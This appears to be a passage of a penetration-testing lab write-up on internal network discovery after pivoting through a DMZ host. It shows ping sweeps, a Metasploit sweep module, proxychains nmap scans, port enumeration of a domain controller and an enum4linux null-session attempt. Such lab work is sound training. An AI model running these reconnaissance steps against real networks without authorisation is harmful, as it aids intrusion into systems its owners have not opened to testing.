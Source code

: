 ## 🔍 Internal Host Discovery

### 📊 Network Scanning Approaches
```bash
# Method 1: Bash ping sweep (from pivot host)
for i in $(seq 254); do ping 172.16.8.$i -c1 -W1 & done | grep from
# Results:
64 bytes from 172.16.8.3: icmp_seq=1 ttl=128 time=0.472 ms    # Domain Controller
64 bytes from 172.16.8.20: icmp_seq=1 ttl=128 time=0.433 ms   # Windows + NFS
64 bytes from 172.16.8.50: icmp_seq=1 ttl=128 time=0.642 ms   # Windows + Tomcat
64 bytes from 172.16.8.120: icmp_seq=1 ttl=64 time=0.031 ms   # DMZ host

# Method 2: Metasploit ping sweep
use post/multi/gather/ping_sweep
set RHOSTS 172.16.8.0/23
set SESSION 1
run

# Method 3: ProxyChains Nmap (slow but comprehensive)
proxychains nmap -sn 172.16.8.0/23
```

### 🎯 Discovered Infrastructure
```cmd
# Network topology mapping:
172.16.8.3   - Domain Controller (DNS, Kerberos, LDAP, SMB)
172.16.8.20  - Windows Server (HTTP, NFS, RDP)  
172.16.8.50  - Windows Server (SMB, RDP, Tomcat 8080)
172.16.8.120 - DMZ Host (current position)

# Service prioritization:
High: NFS (172.16.8.20) - potential credential exposure
Medium: Tomcat (172.16.8.50) - brute force target
Low: Domain Controller (172.16.8.3) - hardened target
```

## 🔍 Service Enumeration Results

### 📊 172.16.8.3 - Domain Controller Analysis
```bash
# Port enumeration:
53/tcp   open  domain      # DNS
88/tcp   open  kerberos    # Kerberos authentication
135/tcp  open  epmap       # RPC endpoint mapper
139/tcp  open  netbios-ssn # NetBIOS session service
389/tcp  open  ldap        # LDAP
445/tcp  open  microsoft-ds # SMB
464/tcp  open  kpasswd     # Kerberos password change
593/tcp  open  unknown     # RPC over HTTP
636/tcp  open  ldaps       # LDAP over SSL

# SMB NULL session attempt:
proxychains enum4linux -U -P 172.16.8.3
# Result: NT_STATUS_ACCESS_DENIED (hardened configuration)
# Domain identified: INLANEFREIGHT
# Domain SID: S-1-5-21-2814148634-3729814499-1637837074
```
